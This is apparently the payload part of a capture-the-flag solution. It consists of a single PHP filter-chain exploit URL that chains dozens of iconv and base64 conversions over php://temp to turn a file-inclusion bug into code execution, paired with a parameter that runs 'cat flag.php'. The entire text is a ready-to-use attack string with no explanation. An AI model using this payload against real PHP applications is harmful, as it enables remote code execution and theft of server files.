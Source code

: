 ```php
/?0=cat flag.php&file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp

```
